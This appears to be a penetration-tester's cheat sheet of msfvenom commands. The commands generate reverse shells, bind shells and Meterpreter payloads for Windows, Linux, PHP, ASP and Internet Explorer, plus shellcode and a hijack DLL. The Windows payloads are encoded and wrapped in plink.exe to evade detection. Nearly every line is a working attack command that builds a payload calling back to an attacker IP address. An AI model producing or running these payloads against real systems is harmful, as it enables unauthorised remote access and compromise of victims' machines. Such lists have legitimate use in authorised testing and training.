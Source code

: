 # WINDOWS ENCODED PAYLOADS  PORT 443
**====CHANGE. IP. AS. NEEDED.====**

## WINDOWS/SHELL/REVERSE_TCP [PORT 443]
```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe


## ---===BIND SHELL, ENCODED, ON PORT 1234===---
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe

## Code for encoding:
--platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe

================================================================================
##[+ LINUX ]
#### LINUX/x86/METERPRETER/REVERSE_TCP
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf

## NETCAT
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
================================================================================

## [+ PHP ]
#### PHP/METERPRETER_REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/METERPRETER/REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/REVERSE_PHP [PORT 443]
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
================================================================================

## [+ ASP]
#### ASP-REVERSE-PAYLOAD [PORT 443]
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

## OR FOR NETCAT [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

================================================================================
## [ + Client-Side, Unicode Payload - For use with Internet Explorer and IE]
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none

- Note: To keep things the same size, if needed add NOPs at the end of the payload.
### A Unicode NOP is - %u9090

================================================================================
===SHELLCODE GENERATION:
================================================================================
--===--
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
--===--
================================================================================
## DLL HiJacking - Windows - x64
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
================================================================================


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell







